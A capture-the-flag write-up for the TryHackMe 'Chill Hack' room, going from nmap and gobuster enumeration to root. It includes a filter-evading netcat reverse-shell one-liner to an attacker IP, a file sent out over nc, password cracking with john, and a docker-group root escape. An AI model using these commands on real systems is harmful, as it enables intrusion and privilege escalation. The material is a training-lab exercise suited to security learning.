 # [Challenge](https://tryhackme.com/room/chillhack)

- # ENUM
	- ### nmap (`nmap -p- -A -T4 chillHack`)
		- 21 -> ftp
		- 22 -> ssh
		- 80 -> http (Apache 2.4.41)
			- Title: Game Info
	- ### gobuster (`gobuster dir -w /usr/share/wordlists/directory-list-lowercase-2.3-big.txt -u 10.10.69.141 -x .html,.php,.txt`)
		- /index.html           (Status: 200) [Size: 35184]
			/images               (Status: 301) [Size: 313] [--> http://10.10.69.141/images/]
			/news.html            (Status: 200) [Size: 19718]
			/about.html           (Status: 200) [Size: 21339]
			/contact.php          (Status: 200) [Size: 0]
			/contact.html         (Status: 200) [Size: 18301]
			/blog.html            (Status: 200) [Size: 30279]
			/css                  (Status: 301) [Size: 310] [--> http://10.10.69.141/css/]
			/team.html            (Status: 200) [Size: 19868]
			/js                   (Status: 301) [Size: 309] [--> http://10.10.69.141/js/]
			/fonts                (Status: 301) [Size: 312] [--> http://10.10.69.141/fonts/]
			/secret               (Status: 301) [Size: 313] [--> http://10.10.69.141/secret/]

- # EXPLOITATION
	- ftp -> `note.txt` -> `Anurodh told me that there is some filtering on strings being put in the command -- Apaar`
	- The `/secret` allows us to execute commands!
		- `echo /home/*` -> `/home/anurodh /home/apaar /home/aurick /home/ubuntu`
		- I got stuck here, then I remembered that the `\` works as an escape character. Let's open a reverse shell:
			- `r\m /tmp/f;mk\fifo /tmp/f;c\at /tmp/f|/bin/sh -i 2>&1|n\c 10.8.13.111 8888 >/tmp/f`
				- `python3 -c "import pty; pty.spawn('/bin/bash')"`

- # PRIVILEGE ESCALATION
	- `sudo -l` -> we can run `home/apaar/.helpline.sh` as the user apaar:
		- `read -p "Hello user! I am $person,  Please enter your message: " msg`
		  `$msg 2>/dev/null`
			- Let's try running the script as apaar and writing `/bin/bash` (`sudo -u apaar ./.helpline.sh`):
				- We're apaar now!
	- There's a sus image in `/var/www/files/hacker-with-laptop_23-2147985341.jpg`: let's download it (`nc 10.8.13.111 6666 < hacker-with-laptop_23-2147985341.jpg` -> `nc -lvnp 6666 > hacker-with-laptop_23-2147985341.jpg`)
		- Let's use `stegsolve` to extract the zip (`backup.zip`)  and `john` `stegseek` to crack the archive's password (`zip2john backup.zip > backup.hash` -> `john backup.hash`)
			- Password: `pass1word`
	- In the archive there's a source code with Anurodh's password in base64.
		- Password: `!d0ntKn0wmYp@ssw0rd`
	- We can see that Anurodh is part of the `docker` group. Let's check on GTFOBins!
		- `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
			- We're ROOT!
